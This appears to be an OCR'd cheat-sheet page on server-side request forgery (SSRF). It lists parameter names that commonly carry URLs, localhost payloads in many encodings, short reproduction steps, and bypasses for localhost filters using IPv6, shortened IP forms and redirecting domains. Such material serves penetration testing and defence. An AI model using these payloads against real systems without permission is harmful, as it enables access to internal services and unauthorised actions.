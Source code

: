 ```jsx
anything	0.2%
FileName	0.2%
logoutRedirectURL	0.2%
list	0.2%
startUrl	0.2%
service	0.2%
redirect_to	0.2%
end_url	0.2%
_next	0.2%
noSuchEntryRedirect	0.2%
context	0.2%
returnurl	0.2%
ref_url	0.2%
```

## 1-SSRF attacks against the server itself

In an SSRF attack against the server itself, the attacker induces the application to make an HTTP request back to the server that is hosting the application, via its loopback network interface. This will typically involve supplying a URL with a hostname like 127.0.0.1 (a reserved IP address that points to the loopback adapter) or localhost.

Basic Localhost Payloads:

```
http://127.0.0.1:port
http://localhost:port
https://127.0.0.1:port
https://localhost:port
http://[::]:port
http://0000::1:port
http://[0:0:0:0:0:ffff:127.0.0.1]
http://0/
http://127.1
http://127.0.1
```

**Steps to reproduce:**

1-Try to use burpcollab to check if the server fetches data from an internal system(interacting with backend)

2-Send request to localhost

3-Try to perform sensitive actions as an unauthenicated users

```jsx
**Bypasses for Localhost

1-**Bypass using HTTPS
https://127.0.0.1/
https://localhost/

2-Bypass localhost with [::]
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid
http://0000::1:80/
http://0000::1:25/ SMTP
http://0000::1:22/ SSH
http://0000::1:3128/ Squid

3-Bypass localhost with a domain redirection
http://spoofed.burpcollaborator.net
http://localtest.me
```